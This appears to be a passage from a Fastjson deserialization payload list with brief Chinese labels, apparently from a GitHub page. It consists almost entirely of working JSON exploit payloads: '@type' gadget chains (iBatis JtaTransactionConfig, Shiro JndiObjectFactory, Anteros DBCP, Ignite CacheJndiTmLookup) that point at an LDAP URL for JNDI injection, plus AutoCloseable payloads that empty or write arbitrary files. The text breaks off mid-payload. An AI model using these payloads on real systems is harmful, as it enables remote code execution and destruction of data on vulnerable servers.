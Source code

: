 ```json
{
	"@type": "com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig",
	"properties": {
		"@type": "java.util.Properties",
		"UserTransaction": "ldap://127.0.0.1:23457/Command8"
	}
}
```
JndiObjectFactory
```json
{
	"@type": "org.apache.shiro.jndi.JndiObjectFactory",
	"resourceName": "ldap://127.0.0.1:23457/Command8"
}
```
AnterosDBCPConfig
```json
{
	"@type": "br.com.anteros.dbcp.AnterosDBCPConfig",
	"metricRegistry": "ldap://127.0.0.1:23457/Command8"
}
```
AnterosDBCPConfig2
```json
{
	"@type": "br.com.anteros.dbcp.AnterosDBCPConfig",
	"healthCheckRegistry": "ldap://127.0.0.1:23457/Command8"
}
```
CacheJndiTmLookup
```json
{
	"@type": "org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup",
	"jndiNames": "ldap://127.0.0.1:23457/Command8"
}
```
AutoCloseable 清空指定文件
```json
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileOutputStream",
    "file":"/tmp/nonexist",
    "append":false
}
```
AutoCloseable 清空指定文件
```json
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileWriter",
    "file":"/tmp/nonexist",
    "append":false
}
```
AutoCloseable 任意文件写入
```json
{
    "stream":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"java.io.FileOutputStream",
        "file":"/tmp/nonexist",
        "append":false
    },
    "writer":
    {
```